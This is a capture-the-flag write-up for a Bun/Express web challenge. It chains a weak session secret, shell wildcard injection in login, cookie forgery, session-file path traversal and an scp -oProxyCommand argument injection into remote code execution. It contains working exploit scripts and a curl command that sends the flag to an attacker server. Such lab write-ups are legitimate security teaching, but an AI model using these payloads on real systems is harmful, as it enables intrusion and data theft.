

# Global Backups

This hard web challenge combines a few tricks that require understanding file-based sessions, signing and globbing.
The goal of this challenge was to learn about abusing globbing, specifically in the Bun Shell API. This can cause all sorts of issues when you are able to create files on the server.

## Summary

1. Wildcard injection in login Bun Shell command to leak session filename
2. Crack your own session to find the HMAC signing secret, and find sessions using boolean search with wildcards in login. Sign it to get a valid cookie
3. As a logged-in user, upload a fake session, sign and reference it with a path traversal. This gives you an arbitrary username
4. Set the username to `*anything` and upload two SSH argument injection filenames as `-oProxyCommand=sh shell.sh anything@backup:backup.tar.gz` and `anything@backup:backup.tar.gz`, as well as `shell.sh` with payload
5. Trigger restore to inject arguments and execute shell

## Walkthrough

Full source code is given and using [Docker](https://www.docker.com/) with `docker compose up --build`, the application can be run locally. It is then available on http://localhost:8000.

The challenge is a recreation of the Windows 10 desktop with a login page:


### Source Code Analysis

The `app/Dockerfile` inside compiles a `/readflag` binary that is a SUID binary which prints the flag. Therefore, you need to be able to execute this command and get its output, as `/flag.txt` is unreadable by the regular user.

There is also another `backup` service that acts as a simple SSH server to which the app can copy files.

The `app/src/index.ts` file contains a lot of setup including sessions stored as files, file upload, and a flash messaging system:

```ts
import express from "express";
import session from "express-session";
import fileUpload from "express-fileupload";
import FileStore_ from "session-file-store";
...

const app = express();
app.use(express.urlencoded({ extended: true }));
app.use(express.static("public", { maxAge: 1000 * 60 * 60 }));
app.use(fileUpload());
app.set("view engine", "ejs");

const FileStore = FileStore_(session);

app.use(
  session({
    store: new FileStore({
      path: "/tmp/sessions",
      ttl: 60,
      reapInterval: 60,
    }),
    secret: Bun.env.SECRET,
    resave: true,
    saveUninitialized: true,
  })
);
...

app.use((req, res, next) => {
  // Flash messages
  req.flash = function (message: string) {
    if (!req.session?.flash) req.session.flash = [];
    req.session.flash?.push(message);
  };

  const render = res.render;
  res.render = function (...args) {
    if (req.session) {
      res.locals.flash = req.session.flash || [];
      req.session.flash = [];
    } else {
      res.locals.flash = [];
    }
    render.apply(res, args);
  };
  next();
});

app.use("/", routes);
```

It takes the routes from `routes.ts`. This file has some unauthenticated routes that we will look at first:

```ts
import { getUser } from "./db";
import { sanitize, sizeToString, timeAgo } from "./utils";

const router = express.Router();

router.get("/", function (req: Request, res: Response) {
  res.render("index", { username: req.session.username });
});

// Auth

router.get("/login", function (req: Request, res: Response) {
  res.render("login");
});

router.post("/login", async function (req: Request, res: Response) {
  let { username, password } = req.body;

  if (typeof username !== "string" || typeof password !== "string") {
    res.type("txt");
    res.status(400).send("Invalid parameters!");
    return;
  }

  username = sanitize(username);
  const user = await getUser(username);

  if (user && (await Bun.password.verify(password, user.password))) {
    console.log(`User '${username}' logged in`);

    req.session.username = username;
    req.session.cookie.maxAge = 9999999999999; // Keep logged-in sessions alive
    req.flash("Successfully logged in!");
    res.redirect("/files");
  } else {
    await $`echo ${username} failed to log in >> /tmp/auth.log`;
    req.flash("Invalid username or password!");
    res.redirect("/login");
  }
});
...
```

The `db.ts` file contains a `getUser` function that retrieves the password hash for the username we input, and the `sanitize()` function is called on that username before passing it. Below are these two functions:

```ts
// db.ts
import { Database } from "bun:sqlite";

const db = new Database("/tmp/db.sqlite");

export async function getUser(username: string): Promise<User | null> {
  return db.query("SELECT * FROM users WHERE username = ?").get(username) as User;
}
```

```ts
// utils.ts
import { normalize } from "path";

export function sanitize(s: string): string {
  s = s.replace(/[#;`$|&<>'"\\]/g, "");

  ...
}
```

The database function seems to correctly use prepared statements, so SQL Injection is not an option. There is more logic in the login function after inputting a wrong password, however. Using the [Bun Shell](https://bun.sh/docs/runtime/shell) API, it executes a simple `echo` command with our username to append it to a log.

```ts
await $`echo ${username} failed to log in >> /tmp/auth.log`;
```

At first, this may look like an easy command injection vulnerability, but two things hinder us:

1. The `sanitize()` function replaces all special characters
2. Even if we were able to use these characters, the ``` $`` ``` syntax is a [Tagged Template](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates) which is special syntax that calls the `$()` function with all strings and variables, without evaluating it first. Bun handles escaping special characters in this function, meaning we won't be able to inject commands directly.

### Insecure Session Secret

`entrypoint.sh` contains the following line of setup:

```sh
export SECRET=$RANDOM
```

The `$SECRET` is then used in the `express-session` setup:

```ts
app.use(
  session({
    ...
    secret: Bun.env.SECRET,
```

The value `$RANDOM` generates is just a random number ranging from 0-32767. Because of the small number of possible secrets, we may be able to brute force it. Let's take a look at the signature algorithm of a cookie:

1. Cookie starts with `s:`, next part passed to `unsigncookie()`: https://github.com/expressjs/session/blob/bbeca94e69b93d437c4ca300b111bd59169de925/index.js#L550
2. Secret is passed to `cookie-signature`'s `unsign()` function with cookie value: https://github.com/expressjs/session/blob/bbeca94e69b93d437c4ca300b111bd59169de925/index.js#L685
3. Signing function inside `node-cookie-signature` library using HMAC split by `.` and Base64: https://github.com/tj/node-cookie-signature/blob/master/index.js#L16-L24

If we check the cookie we receive from the server, the `connect.sid=` seems to have this format:

```http
Cookie: connect.sid=s%3AJ9hccrvqDHuV62peoInc1Ub1yS56YJKe.lY4Guk%2FkKGJZf0H1O77arur9U6z0RdTg2IWKcGFThr4
```

URL-decoded, this looks like:

```
prefix                            separator
VV                                V
s:J9hccrvqDHuV62peoInc1Ub1yS56YJKe.lY4Guk/kKGJZf0H1O77arur9U6z0RdTg2IWKcGFThr4
  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  data                             signature
```

[Hashcat](https://hashcat.net/hashcat/) has a mode 1460 for HMAC-SHA256, but for this keyspace of only 32767 possibilities, a simple Python script will do just as well. We will take the `data`, sign it with the potential key, then compare it with the `signature`:

```py
from urllib.parse import unquote
from base64 import b64decode
from hashlib import sha256
import hmac

cookie = "s%3AJ9hccrvqDHuV62peoInc1Ub1yS56YJKe.lY4Guk%2FkKGJZf0H1O77arur9U6z0RdTg2IWKcGFThr4"

cookie = unquote(cookie).lstrip("s:")
data, signature = cookie.split(".", 1)
signature = b64decode(signature + '===')
for i in range(32767):
    secret = str(i).encode()
    possible_signature = hmac.new(
        secret, data.encode(), sha256).digest()
    if possible_signature == signature:
        print(secret)  # b'1685'
        break
```

This time, it happened to be `b'1685'`. Using this signing secret, we can pass any `data`, but what is data?

### File Sessions

The session store is from [`session-file-store`](https://github.com/valery-barysok/session-file-store). The "data" we can forge now is not the underlying session data, but instead a `sessionId` pointing to where the real data is stored. `FileStore` implements a `get()` method that handles getting data from a sessionId:

https://github.com/valery-barysok/session-file-store/blob/b89a42b00f24e720bb9d07cc7ddf72ef6c43c7bc/lib/session-file-helpers.js#L161

```js
var helpers = {
  sessionPath: function (options, sessionId) {
    //return path.join(basepath, sessionId + '.json');
    return path.join(options.path, sessionId + options.fileExtension);
  },
  ...
  get: function (sessionId, options, callback) {
    var sessionPath = helpers.sessionPath(options, sessionId);

    var operation = retry.operation({
      retries: options.retries,
      factor: options.factor,
      minTimeout: options.minTimeout,
      maxTimeout: options.maxTimeout
    });

    operation.attempt(function () {

      fs.readFile(sessionPath, helpers.isSecret(options.secret) && !options.encryptEncoding ? null : options.encoding, function readCallback(err, data) {
        ...
```

Using `path.join`, the "/tmp/sessions" option will be appended to the `sessionId` we input, followed by `.json`. This file is then read and its content will be the session data. We don't know the files inside `/tmp/sessions`, so we can't forge any session ID with valid data.

### Bun Shell Globbing

Remember in the login function, some curious functionality uses the Bun Shell to write the input username to a log file using a shell command:

```ts
await $`echo ${username} failed to log in >> /tmp/auth.log`;
```

You may also have noticed that the Bun version in the Dockerfile was set to `1.1.8`. This is important because after this version, some changes were made to escape more characters in shell commands:

```diff
- const SPECIAL_CHARS = [_]u8{ '$', '>', '&', '|', '=', ';', '\n', '{', '}', ',', '(', ')', '\\', '\"', ' ', '\'' };
+ const SPECIAL_CHARS = [_]u8{ '~', '[', ']', '#', ';', '\n', '*', '{', ',', '}', '`', '$', '=', '(', ')', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '|', '>', '<', '&', '\'', '"', ' ', '\\' };
```

Comparing these with the `sanitize()` function:

```ts
s = s.replace(/[#;`$|&<>'"\\]/g, "");
```

You may notice that one set of characters that were forgotten are the `[]` and `*` characters for [globbing](https://tldp.org/LDP/abs/html/globbingref.html). These can expand strings and are supported by the Bun Shell as explained in [their features](https://bun.sh/docs/runtime/shell#features).

The `*` input is a wildcard that will match **all files in the current directory**. Inputting this as the username gives an "Invalid username or password!" message as expected, but when looking at the `/tmp/auth.log` file, also lists all files in the current directory:

```shell
$ docker exec -it global-backups-app-1 bash
user@a5202f8a96cc:/app$ cat /tmp/auth.log
...
public views src node_modules bun.lockb package.json failed to log in
```

By specifying a full path, it will match all existing paths. Enter `/tmp/sessions/*`, for example:

```
/tmp/sessions/k_qaMtKNSgT_eo7oZ63J_S01ElgCB2af.json /tmp/sessions/8iudAH0DVv31dwiK6h6DbinK9js36BBu.json /tmp/sessions/hVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc.json /tmp/sessions/0Phr4Qv0fMTLAkKuNj2I8_6ehQEexZMn.json /tmp/sessions/0MI5t8Z4mz2GdUCgxCRr18AzOsUzXMdV.json failed to log in
```

This prints the `sessionId`s we were looking for earlier. If we can somehow read these, we have the signing key to create a valid cookie and impersonate the session.

We cannot read the `/tmp/auth.log` file, however. Instead, we should look at what happens when it *doesn't* match with a wildcard like `/tmp/sessions/nonexistent*`:

> ShellError: Failed with exit code 1
> bun: no matches found: /tmp/sessions/nonexistent*

The request errors out and we get a different response. We can abuse this to find if there are sessions that match any wildcard expression. By then going through all possible first characters, we should find some of them successful. If we keep expanding these to be more and more specific, eventually we will find a whole session:

```
/tmp/sessions/A* -> no matches found
/tmp/sessions/B* -> no matches found
/tmp/sessions/C* -> Invalid username or password!
/tmp/sessions/CA* -> no matches found
/tmp/sessions/CB* -> no matches found
/tmp/sessions/CC* -> no matches found
/tmp/sessions/CD* -> Invalid username or password!
/tmp/sessions/CDA* -> no matches found
/tmp/sessions/CDB* -> no matches found
...
```

The above can be implemented easily in Python:

```py
import string
import requests

s = requests.Session()

HOST = "http://localhost:8000"

def login(username, password=""):
    r = s.post(HOST + "/login",
               data={"username": username, "password": password},
               allow_redirects=False)
    return r.status_code == 302

session = ""
for i in range(32):
    for c in string.ascii_letters + string.digits + "_-":
        if login(f"/tmp/sessions/{session}{c}*.json"):
            session += c
            print(session)
            break
    else:
        raise Exception("Failed to find next character")

print(f"Found session: {session}")
```

Running this finds a session file pretty quickly:

```log
h
hV
hVh
...
hVh9lfT5PPqBYUwrRoi8wztTx-dIOrk
hVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc
Found session: hVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc
```

Keep in mind that this could be a session of some random other guest visitor or a logged-in administrator. To test it, we should sign the session and attempt to access an authenticated part of the website like `/files`.

```py
def create_cookie(data, secret):
    signature = hmac.new(secret, session.encode(), sha256).digest()
    signature = b64encode(signature).decode().rstrip("=")
    return f"s:{data}.{signature}"

secret = b"1685"
data = "hVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc"
cookie = create_cookie(data, secret)
print(cookie)  # s:hVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc.IcqlHjq5b9lJn8yJtpJMpck1gA15aSpdeVzCvlBUpFI
```

```shell
$ curl -I -H 'Cookie: connect.sid=s:hVh9lfT5PPqBYUwrRoi8wz
tTx-dIOrkc.IcqlHjq5b9lJn8yJtpJMpck1gA15aSpdeVzCvlBUpFI' 'http://localhost:8000/files'

HTTP/1.1 200 OK
set-cookie: connect.sid=s%3AhVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc.IcqlHjq5b9lJn8yJtpJMpck1gA15aSpdeVzCvlBUpFI; Path=/; Expires=Wed, 01 Oct 2341 08:43:42 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
ETag: W/"14db-NaG/KdA0fMlpOh//QKqrrtwvv9c"
X-Powered-By: Express
Date: Sun, 10 Nov 2024 14:57:01 GMT
Content-Length: 0
```

`200 OK`! This shows we leaked a logged-in session and can now access the `/files` application.



### File Explorer

The file explorer gives access to much more functionality, allowing uploads and downloads in this directory. A middleware sets `req.session.username` and filenames are sanitized using `sanitize()` once again:

```ts
router.use((req, res, next) => {
  // Auth middleware
  if (req.session.username) {
    req.session.username = sanitize(req.session.username);
    if (/[-\/]/.test(req.session.username)) {
      res.type("txt");
      res.status(400).send("Invalid username!");
      return;
    }
    next();
  } else {
    req.flash("You need to be logged in to access this page!");
    res.redirect("/login");
  }
});

router.post("/upload", async function (req: Request, res: Response) {
  const file = req.files?.file;

  if (!file || Array.isArray(file)) {
    res.type("txt");
    res.status(400).send("Invalid parameters!");
    return;
  }

  file.name = sanitize(file.name);

  await file.mv(`/tmp/files/${req.session.username}/${file.name}`);

  req.flash("File uploaded!");
  res.redirect("/files");
});
```

An extra check is added to the username to make sure it does not contain `-` or `/` characters. We can check the `sanitize()` function again to see if Path Traversal would potentially be possible:

```ts
import { normalize } from "path";

export function sanitize(s: string): string {
  s = s.replace(/[#;`$|&<>'"\\]/g, "");

  if (s.startsWith("/")) {
    s = normalize(s);
  } else {
    s = normalize("/" + s).slice(1);
  }

  if (["", ".", "..", "/"].includes(s)) {
    throw new Error("Invalid input!");
  } else {
    return s;
  }
}
```

After replacing special characters, the path is normalized using `path.normalize()`. If it resolves to any special path like `.`, `..` or `/`, the whole input is blocked. This causes `../../../etc/passwd` sequences to turn into `/etc/passwd`, and then be appended to the full path like:
`/tmp/files/admin//etc/passwd`

The above only reads a file inside admin's files, we cannot traverse out of this path because it is normalized with a `/` in front.

We still have almost full control over the directory by uploading files, and there are more functions to backup and restore files from the backup server using SSH:

```ts
router.post("/backup", async function (req: Request, res: Response) {
  const cwd = `/tmp/files/${req.session.username}`;
  const tar = (await $`echo $(mktemp -d)/backup.tar.gz`.text()).trim();
  await $`tar -czf ${tar} .`.cwd(cwd);
  await $`scp ${tar} ${req.session.username}@backup:`.cwd(cwd);

  req.flash("Files backed up!");
  res.redirect("/files");
});

router.post("/restore", async function (req: Request, res: Response) {
  const cwd = `/tmp/files/${req.session.username}`;
  const tar = "backup.tar.gz";
  await $`scp ${req.session.username}@backup:${tar} .`.cwd(cwd);
  await $`tar -xzf ${tar} && rm ${tar}`.cwd(cwd);

  req.flash("Files restored!");
  res.redirect("/files");
});
```

We don't seem to have control over the username though, because we are using the session we happened to find. Sessions are stored as files, you may start to see where we're going with this.

### Forging a Session File

As seen before, `session-file-store` uses `path.join` on the session directory and signed sessionId. Because we can sign arbitrary sessionIds now, we could create one with a path traversal.

If we point the session to `../files/admin/fake_session`, it will append `.json` and read `/tmp/sessions/../files/admin/fake_session.json`, which we can upload to!

By uploading a session (file with the name `fake_session.json`) in the following format, we can make it contain any username:

```json
{
  "cookie":{
    "originalMaxAge":9999999999999,
    "expires":"2341-10-01T08:45:48.759Z",
    "httpOnly":true,
    "path":"/"
  },
  "username":"ANYTHING",
  "flash":[],
  "__lastAccess":1731250748760
}
```

Then, we create a valid signature for the path traversal sessionId to load the username from our uploaded file.

```py
cookie = create_cookie("../files/admin/fake_session", secret)
print(cookie)  # s:../files/admin/fake_session.dW8TbN135258G7QJbU9bxIrbo5i21ARWjseYB6Wl7Bs
```

When we use the cookie on the home page, we can see that it recognizes our new name:

```shell
$ curl -s -H 'Cookie: connect.sid=s:../files/admin/fake_se
ssion.dW8TbN135258G7QJbU9bxIrbo5i21ARWjseYB6Wl7Bs' 'http://localhost:8000' | grep Hello

    <h3>Hello ANYTHING</h3>
```

### Argument Injection

We should now more closely look at the `scp` commands, because our username is now input into this function. The Bun Shell can still cause problems as we've seen with our initial access. Below is the command we have input into again:

```ts
await $`scp ${req.session.username}@backup:${tar} .`.cwd(cwd);
```

Because our input is at the start of the 1st argument, one idea would be to inject arguments starting with `-`. Adding arguments may allow executing unintended features of `scp`. When looking online for "Argument Injection in scp", we get a lot of results talking about CVE-2020-15778, but this is irrelevant. Instead, we should look at "SSH" argument injection vectors because the syntax for both commands is almost identical.

One such vector is explained here:
https://sonarsource.github.io/argument-injection-vectors/binaries/ssh/
It was actually used in an exploit for the Visual Studio Code remote desktop extension:
https://www.shielder.com/it/advisories/remote-command-execution-in-visual-studio-code-remote-development-extension/

`-o` can be used to add connect options, and allows you to add the option like `ProxyCommand=` without a necessary space. We are still limited in the characters we can use for the command itself due to `sanitize()`, but running `sh shell.sh` would be enough because we can write a file in the current directory with any complex payload.

One problem that persists is the fact that the username is checked for the `-` character in the middleware:

```ts
req.session.username = sanitize(req.session.username);
if (/[-\/]/.test(req.session.username)) {
  res.type("txt");
  res.status(400).send("Invalid username!");
  return;
}
next();
```

The trick is that we can reuse the same wildcard technique from before. We can write files with filenames starting with `-` that act as options when we specify `*` as the username because it expands to all matching files in the current directory. Our input has `@backup:backup.tar.gz` appended to it in the 1st argument, so the wildcard can only match files with this suffix.

Let's try to make a payload that executes an arbitrary command. Writing our payload in `shell.sh` and using `sh` with the filename will ignore the second argument (`@backup...`) and execute our written command.

```sh
$ echo 'id > /dev/tty' > shell.sh
$ scp '-oProxyCommand=sh shell.sh @backup:backup.tar.gz' .
usage: scp [-346ABCpqrTv] [-c cipher] [-F ssh_config] [-i identity_file]
            [-J destination] [-l limit] [-o ssh_option] [-P port]
            [-S program] source ... target
```

This doesn't seem to work just yet, because it requires *options*, then a *source* and a *target*, we have just provided options and a source, no third argument. Luckily, due to wildcard expansion rules, matching multiple files will put them as separate arguments one after the other. We just have to write one more `anything@backup:backup.tar.gz` file that will also match the wildcard and appear after the options.

```sh
$ scp '-oProxyCommand=sh shell.sh @backup:backup.tar.gz' 'anything@backup:backup.tar.gz' .
uid=1337(user) gid=1337(user) groups=1337(user)
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
```

We can confirm this also works with a wildcard matching written filenames:

```sh
$ touch -- '-oProxyCommand=sh shell.sh @backup:backup.tar.gz'
$ touch -- 'anything@backup:backup.tar.gz'
$ scp *@backup:backup.tar.gz .
uid=1337(user) gid=1337(user) groups=1337(user)
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
```

> **Note**: There is a chance this doesn't work the first time, due to random filename ordering in wildcards ('invalid user name' error). Keep trying different filenames until you hit the 50/50 where the option comes first. Do this easily by moving the `anything@` file to `anythingA@` etc.

### Final Payload

All that's left is to write a final payload through the web application to achieve RCE. We will have to create a fake session with the username of `*`:

```json
{
  "cookie":{
    "originalMaxAge":9999999999999,
    "expires":"2341-10-01T08:45:48.759Z",
    "httpOnly":true,
    "path":"/"
  },
  "username":"*",
  "flash":[],
  "__lastAccess":1731250748760
}
```

Upload this as admin to `fake_session.json`, then create a valid signature for the path traversal sessionId to load the username from our uploaded file.

```py
cookie = create_cookie("../files/admin/fake_session", secret)
print(cookie)  # s:../files/admin/fake_session.dW8TbN135258G7QJbU9bxIrbo5i21ARWjseYB6Wl7Bs
```

Then, upload 3 files as this wildcard user:
1. `shell.sh` containing shell commands to exfiltrate the flag, such as `curl $YOUR_SERVER -d "$(/readflag)"`
2. `-oProxyCommand=sh shell.sh @backup:backup.tar.gz` as the injected argument, content may be empty
3. `anything@backup:backup.tar.gz` as the extra required argument to `scp`

Finally, we can trigger a *Restore* operation as this user to execute the payload and receive the flag:

```shell
$ nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received
POST / HTTP/1.1
User-Agent: curl/7.74.0
Accept: */*
Content-Length: 48
Content-Type: application/x-www-form-urlencoded

CTF{PWn1Ng_*bUN*-53s5I0nS_4nD-Pr0XY1nG_c0mM4nDS}
```
